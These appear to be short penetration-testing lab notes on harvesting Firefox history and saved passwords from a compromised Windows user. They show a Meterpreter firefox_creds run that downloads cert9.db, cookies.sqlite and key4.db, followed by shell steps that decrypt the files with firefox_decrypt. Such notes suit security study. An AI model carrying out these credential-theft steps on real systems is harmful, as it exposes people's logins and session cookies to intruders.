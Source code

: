 # Browser password et history

## history:

output de winpeas:
C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release\places.sqlite


## password

meterpreter > run post/multi/gather/firefox_creds 

[*] Checking for Firefox profile in: C:\Users\katwamba\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release
[+] Downloaded cert9.db: /root/.msf4/loot/20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin
[+] Downloaded key4.db: /root/.msf4/loot/20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\vd59vltl.default

meterpreter > 

==========


┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin cert9.db
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin cookies.sqlite
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin key4.db

┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $python firefox_decrypt/firefox_decrypt.py .

